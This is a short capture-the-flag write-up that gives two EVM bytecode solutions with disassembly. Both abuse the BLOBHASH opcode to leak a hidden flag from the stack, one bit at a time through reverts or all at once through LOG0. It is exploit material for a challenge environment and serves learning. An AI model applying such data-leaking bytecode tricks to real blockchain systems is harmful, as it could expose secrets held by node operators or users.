 ## My Solution

The bytecode I used is `5f496004351c60011660145760015f5260205ff35b5f5ffd`:

```txt
[00] PUSH0 
[01] BLOBHASH 
[02] PUSH1          04
[04] CALLDATALOAD 
[05] SHR 
[06] PUSH1          01
[08] AND 
[09] PUSH1          14
[0b] JUMPI 
[0c] PUSH1          01
[0e] PUSH0 
[0f] MSTORE 
[10] PUSH1          20
[12] PUSH0 
[13] RETURN 
[14] JUMPDEST 
[15] PUSH0 
[16] PUSH0 
[17] REVERT
```

It will call BLOBHASH with `index = 0` and shift the result based on call data to leak one bit of the stack element. The transaction will be reverted if the `i`-th bit of the stack element is `1`. When sending the transaction, we need to set the max priority fee to `2**64 + 0x13370000` to meet the above condition. After sending 256 transactions, we can recover the full flag.

After checking the official solution, I found that it simply uses `LOG0` to log the stack element, which is more efficient!

`6008600a5f3960095ff35f495f5260205fa000`

```txt
[02] PUSH1      0a
[04] PUSH0 
[05] CODECOPY 
[06] PUSH1      09
[08] PUSH0 
[09] RETURN 
[0a] PUSH0 
[0b] BLOBHASH 
[0c] PUSH0 
[0d] MSTORE 
[0e] PUSH1      20
[10] PUSH0 
[11] LOG0 
[12] STOP
```
